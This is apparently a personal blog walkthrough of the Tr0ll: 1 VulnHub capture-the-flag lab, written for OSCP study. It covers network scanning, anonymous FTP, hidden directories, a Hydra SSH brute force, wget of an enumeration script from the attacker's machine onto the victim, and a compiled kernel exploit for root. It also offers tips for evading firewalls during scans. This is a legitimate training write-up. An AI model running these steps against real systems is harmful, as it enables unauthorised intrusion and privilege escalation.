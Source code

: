 ```yaml
---
title: "Tr0ll: 1 Walkthrough"
author: alex
date: Thu  6 Jul 19:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-07-tr0ll-walkthrough
---
```


## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Wireshark
- Linux Exploit Suggester
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.12    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.12
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

This way, we get more information about the victim. Let's have a look:

```
Nmap scan report for 192.168.1.12
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)

MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

![FTP](/ftp.png)

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

```bash
get lol.pcap
```
   
![sup3rs3cr3tdirlol](/supersecretdir.png)

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
\n
Sucks, you were so close... gotta TRY HARDER!\n
```

Isn't it obvious? Let's open Firefox and look for: `http://192.168.1.12/sup3rs3cr3tdirlol/`

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

```bash
strings roflmao
```

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

![Strings](/strings.png)

Another directory? Hell yeah! `http://192.168.1.12/0x0856BF/`

More files. This time looks like we get some usernames and a Pass.txt. Let's try to brute force **SSH** with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but **Pass.txt**!

```bash
sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 
```

Note I have made a text document with the usernames. And quickly we find a valid combination:

![Brute Force with Hydra](/hydra.png)

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

```bash
/bin/bash -i
```

## Enumeration

Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the **Linux Exploit Suggester** script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

```bash
sudo service apache2 start
```

Now, in **tr0ll** machine, inside `tmp` folder:

```bash
wget http://192.168.1.23/Enumeration/les.sh
```

Now we should give permissions to the file:

```bash
chmod 777 les.sh
```

And run it:

```bash
./les.sh
```

Now we know that this machine is specifically vulnerable to:

![Linux Exploit Suggester](/exploit.png)

## Exploitation

Now we only need to compile the exploit, give permissions and run it:

```bash
gcc exploit.c -o exploit
chmod 777 exploit
./exploit
```

![Root](/root.png)

And we should see a root shell now! Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!

![Proof](/proof.png)
